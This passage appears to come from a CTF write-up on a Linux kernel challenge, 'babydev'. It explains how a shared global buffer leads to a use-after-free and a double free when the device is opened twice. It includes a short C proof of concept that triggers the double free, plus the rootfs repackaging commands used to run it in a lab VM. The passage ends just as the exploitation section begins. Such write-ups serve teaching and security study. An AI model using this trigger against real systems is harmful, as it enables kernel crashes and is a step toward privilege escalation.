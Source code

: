 Since the device_buf is in the .bss section, i.e., a global variable, so there is one racy issue - the latter open operation will overwrite the device_buf allocated by the former open operation.

-------------------------------------------------------------------
   fd 1                  fd 2
   open  <-- allocate device_buf		
                         open  <-- allocate and overwrite device_buf
  release  <-- free the new allocation
                       operation  <-- Use After Free is triggered
                        release   <-- Double Free is triggered
-------------------------------------------------------------------

### PoC Generation

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
	// 打开两次设备
	int fd1 = open("/dev/babydev", 2);
	int fd2 = open("/dev/babydev", 2);

	// 释放 fd1
	close(fd1);

	// 释放 fd2, double free is triggered
	close(fd2);

	return 0;
}
```

Let's repackage the rootfs and execute the PoC.

```
$ gcc -static -o poc poc.c
$ cp poc core/tmp/
$ cd core
$ find . | cpio -o --format=newc > rootfs.cpio
$ cp rootfs.cpio ../
$ cd ../
$ ./boot.sh
/ $ /tmp/poc
/ $ /tmp/poc
```

### Vulnerability Exploitation
